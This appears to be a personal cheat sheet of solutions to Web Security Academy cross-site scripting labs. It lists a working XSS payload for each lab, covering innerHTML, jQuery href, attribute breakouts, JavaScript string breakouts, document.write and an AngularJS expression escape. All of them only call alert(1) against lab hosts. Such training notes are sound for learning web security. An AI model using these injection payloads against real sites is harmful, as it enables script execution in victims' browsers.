 ## Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ``` " autofocus onfocusin='alert(1)' x="```


## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ``` https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ``` 123'; alert(1);//```


## Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ``` https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ``` {{constructor.constructor('alert(1)')()}}```

## 